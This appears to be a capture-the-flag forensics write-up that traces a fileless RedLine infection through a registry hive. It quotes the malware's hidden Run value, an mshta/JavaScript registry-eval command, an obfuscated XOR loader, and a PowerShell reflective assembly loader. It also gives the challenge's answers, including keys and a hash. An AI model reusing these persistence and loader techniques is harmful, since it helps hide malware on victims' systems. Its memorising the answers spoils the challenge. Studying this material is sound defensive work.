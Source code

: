 # Intro
```
A security breach occurred on a corporate network, and a device may have been infected with fileless malware. This malware operates entirely in memory, making it difficult to detect and analyze.

The security team has extracted the NTUSER.DAT registry hive from the affected device. Your task is to analyze this file and identify any malicious activities associated with the fileless malware.
```

## Analyzing the registry file
From the description, we are dealing with a fileless malware, and we are given a registry hive. There are multiple ways to analyze this registry file, such as **comparing it with a clean registry snapshot** **[[RegShot](https://sourceforge.net/projects/regshot/)]** or **looking for suspicious locations where malware might exist**, like the `Run` key. **[[1](https://www.minitool.com/news/check-registry-for-malware-and-remove-it.html)]**

Let's load the registry hive

![](photos/load.gif)

If we tried to check the `Run` registry key, we encountered the following error and we won't find any suspicious value.

![](photos/error_run.png)

![](photos/run_reg.png)

It's a trick that the malware authors use to hide the registry value. They employ the NtSetValueKey native API to create a hidden (null-terminated) registry key, such as `\\x00\\x00SOFTWARE\\`. This technique allows them to obscure the presence of the key and evade detection by the DFIR investigation.

We can use various tools to read this registry value. **[[regipy](https://github.com/mkorman90/regipy)]**

```python
from regipy.registry import RegistryHive
reg = RegistryHive('NTUSER.DAT')

Run_Val = reg.get_key('Software').get_subkey('Microsoft').get_subkey('Windows').get_subkey('CurrentVersion').get_subkey('Run').get_values(as_json=True)

print(Run_Val)
```
```
[
   [
    Value(
        name="OneDrive",
        value='"C:\\Users\\device\\AppData\\Local\\Microsoft\\OneDrive\\OneDrive.exe" /background',
        value_type="REG_SZ",
        is_corrupted=False,
    ),
    Value(
        name="\x00\x00SOFTWARE\\",
        value="\"C:\\Windows\\System32\\cmd.exe\" /C start mshta.exe 'javascript:var d6bRt=new ActiveXObject(WScript.shell);var o2eXl=d6bRt.RegRead(HKCU\\\\software\\\\PDFViewer\\\\Settings);eval(o2eXl);'",
        value_type="REG_SZ",
        is_corrupted=False,
    ),
]

]
```

## First/Second/Third Stage
Now, everything has become clear. We can clearly see the null-terminated trick employed and the malicious command executed each time the user logs in, ensuring persistence.

```
"C:\Windows\System32\cmd.exe" /C start mshta.exe 'javascript:var d6bRt=new ActiveXObject(WScript.shell);var o2eXl=d6bRt.RegRead(HKCU\\software\\PDFViewer\\Settings);eval(o2eXl);'
```

The command `cmd.exe /C start mshta.exe` is used to launch a new window and execute the program mshta.exe. In Windows, `mshta.exe` is responsible for running HTML applications. Finally, the executed `JS` program carries out additional actions as part of the malware's functionality.

The `JS` code appears to attempt to access the value in `HKCU\software\PDFViewer\Settings` and execute it using the **eval** function.


```python
# To determine how the fileless malware was executed on the device, we need to determine which trusted Windows process it hijacked. What is the name of the Windows-native binary used to run malicious code? mshta.exe
# Understanding how the malware maintains its presence in the system without a file is crucial for detecting and eradicating the infection. What is the value name of the register string key that contains the malicious script? PDFViewer
```

```python
from regipy.registry import RegistryHive
reg = RegistryHive('NTUSER.DAT')

Run_Val = reg.get_key('Software').get_subkey('PDFViewer').get_value('Settings')

print(Run_Val)
```

**_NOTE:_**  It's obfuscated more than that

```javascript
k2px="5a1634090a3...snippet...436b";
YZDwG5="";
for(Y5JITecq=0;Y5JITecq<k2px.length;Y5JITecq+=2)
   YZDwG5+=String.fromCharCode(parseInt(k2px.substr(Y5JITecq,2),16));
yWRHh23aHDjKD="";
for(Sjuh5ZeqqzXyKS=ofpNn1wsYC7AZaiDa=0; ofpNn1wsYC7AZaiDa<YZDwG5.length; ofpNn1wsYC7AZaiDa++) {
   yWRHh23aHDjKD+=String.fromCharCode(YZDwG5.substr(ofpNn1wsYC7AZaiDa,1).charCodeAt()^gsHFf3JWfO.substr(Sjuh5ZeqqzXyKS,1).charCodeAt());Sjuh5ZeqqzXyKS=(Sjuh5ZeqqzXyKS<gsHFf3JWfO.length-1)?Sjuh5ZeqqzXyKS+1:0;
}
eval(yWRHh23aHDjKD);
```

```python
# To fully comprehend the attacker's approach in concealing the malware, it is imperative to determine the encryption technique and the key value utilized for decrypting the second stage. What is the exact key value required for decrypting the second stage of the malware?PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa
```

replace the `eval` with `console.log` and let's move to the second stage

```powershell
lbdDgcxfyGktwpPHhOevXr1G="RNHvYHQDCzWuwah82O9z";zdVykkfDJcJs6jCeOusxGgnM="TjSGzh3ddexcFTXo1TdjIZV2y0";ydAac6LrWckydmIXdfVQEa6="7QL1FbjZj4y6zJxMCIwhNiyFLK";brpSxkAkAGYAFMe1Q5F="F0b6t8WqXGbvrlQcc95Y9gT";YEBwu5vvRmE5KYfHduYhsNiu="73dKojlgx0FXzMH6TX8HHiaf4JKzZ7YD6F3q0";vpdFstmgBTrOHB9fZZP6iUNFv="UzTk77YC0p1zaZKg3NxrvLxtNsf7aRM4CQe4";nSDruMMuSsiqefQUkCIXC4Rg2="Sz8VKnt5KXMF4HINTuhZxtOgI85j6gAmgZgMR11XT9YF";jksJJxRsO0nn3oXoMlHkVMx="vDzjG41OyHAQeYTH7OBsvMsS0DnDRG4q1g";
try {
  moveTo(-100,-100);
  resizeTo(0,0);
  z5P=new ActiveXObject("WScript.Shell");
  (z5P.Environment("Process"))
  ("fagyo")="iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String(
    'JHR...snippet...dXSBAKCkpKQ=='
  )))";
  uG0GC5=z5P.Run("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe iex $env:fagyo",0,1);
}
catch(e){}
close();
```

![cyberChef](cyberchef.png)

```powershell
$tiodsf2Gdefdaj= Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg" |
Select-Object -ExpandProperty "zorsuhg";
$pqiekvf = [byte[]]$tiodsf2Gdefdaj;$tuievkd23kdi0 = [byte[]](0x61,0x31,0x35,0x38,0x30,0x37,0x64,0x66,0x65,0x33,0x34,0x37,0x65,0x63,0x61,0x61,0x35,0x37,0x62,0x39,0x65,0x32,0x33,0x32,0x61,0x36,0x31,0x31,0x64,0x65,0x30,0x64,0x39,0x36,0x66,0x32,0x64,0x61,0x63,0x36,0x65,0x35,0x31,0x63,0x34,0x39,0x31,0x32,0x31,0x37,0x62,0x35,0x64,0x36);$eBy = @();
for ($i = 0; $i -lt $pqiekvf.Length; $i++) {
$eBy += $pqiekvf[$i] -bxor $tuievkd23kdi0[$i % $tuievkd23kdi0.Length]
}$sc32=[byte[]]$eBy
$bdwrQYis = [System.Convert]::ToBase64String($sc32);
$PEQVDqyts = [System.Convert]::FromBase64String($bdwrQYis);
$assembly = [System.Reflection.Assembly]::Load($PEQVDqyts)
$lqTvcqdoppjds = 
 $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').
   GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$lqTvcqdoppjds.Invoke($null, (, [string[]] @()))
```

It get the binary value that is stored in `HKCU:\Software\nsem\zorsuhg` and decrypt it by xoring it with the key `tuievkd23kdi0`

![](photos/cyber2.png)

```python
# To fully understand the scope of the fileless malware's payload, we need to find where it is stored. What is the value name of the registry string key that contains the encrypted executable? zorsuhg
# Decrypting the malware's executable will allow us to analyze its behavior. What is the key value used to decrypt the executable?a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6
```

```python
from regipy.registry import RegistryHive
from pwn import xor
reg = RegistryHive('NTUSER.DAT')

enc_bin = reg.get_key('Software').get_subkey('nsem').get_value('zorsuhg')
key = bytearray(b"a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6")
binary = xor(key, enc_bin)

with open('binary', 'wb') as f:
    f.write(binary)
```

![](photos/mal_fam.png)

```python
# Comparing the hash of the decrypted executable against known threats can confirm its identity and inform our response strategy. What is the MD5 hash of the decrypted executable?F07E946C8273176316CF6D97DC780BD7
# Identifying the malware family can provide context about the threat actors and their methodologies. What is the name of the malware family associated with this attack? redline
```

Loading it in the `dnspy` you can find the key easily

![](photos/dnspy.gif)

```python
# Understanding all decryption keys used by the malware can aid in revealing the full scope of the threat. What is the key used to decrypt the second stage of the executable? Bounxcwkdkigednzzwbux
```